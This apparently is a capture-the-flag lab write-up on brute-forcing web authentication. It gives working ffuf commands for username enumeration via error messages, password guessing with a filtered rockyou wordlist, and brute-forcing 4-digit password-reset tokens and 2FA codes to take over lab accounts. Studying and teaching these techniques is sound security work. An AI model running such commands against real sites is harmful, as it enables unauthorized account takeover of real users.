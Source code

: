 # 🏍️ Brute-Force Attacks

## Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints

Let's imagine those 2 errors:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>User does not exist</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Just a wrong password </p></figcaption></figure>

To enumerate users via error messages, we will use the `xato-net-10-million-usernames.txt`

Let's imagine the following error message:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

we can filter out invalid users by removing responses containing the string `Unknown user`

```shell-session
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

And when we identify a valid user, we can proceed to do bruteforce

_**Enumerate a valid user on the web application. Provide the username as the answer.**_

```
fuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.56.194:35890/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Brute-Forcing Passwords

Let's imagine we got password policy going on and we're not sure about lockout policy, we can create wordlists according to the policy from famous wordlists to reduce noise:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
ElFelixi0@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Once we got our user or our list of users and our post variable as well as the error messgae, we can start bruteforcing ->

```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

_**What is the password of the user 'admin'?**_

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w custom_wordlist.txt -u http://94.237.53.113:46749/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password that often utilizes a one-time reset token via SMS or email.

Here is a a basic password reset flow

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

To start exploiting this, let's imagine we created an account on the website and asked for a new password and received this type of email:

```
<SNIP>
paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
<SNIP>
```

We can see that we get the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values&#x20;

So let's start by making our list of possible tokens:

```shell-session
seq -w 0 9999 > tokens.txt
```

and then launch our attack and all ports, thus attacking every user that is currently resseting their password

```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

_**Takeover another user's account on the target system to obtain the flag.**_

```
ffuf -w ./tokens.txt -u http://94.237.50.83:58664/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### 2FA Codes

Generally this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device)

most of the time, it relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS that are typically **only of digits**

Let's say we have a set of credentials and there is 2FA:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

If we capture the request we can see the follwoing:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>only <code>10,000</code> possible variations</p></figcaption></figure>

So let's start by crafting our wordlist, then our payload:

```shell-session
seq -w 0 9999 > tokens.txt
```

We can't forget the error message:&#x20;

```shell-session
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

_**Brute-force the admin user's 2FA code on the target system to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w tokens.txt -u http://94.237.56.194:54467/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=d3ng2r9pippot860ural3jls64" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
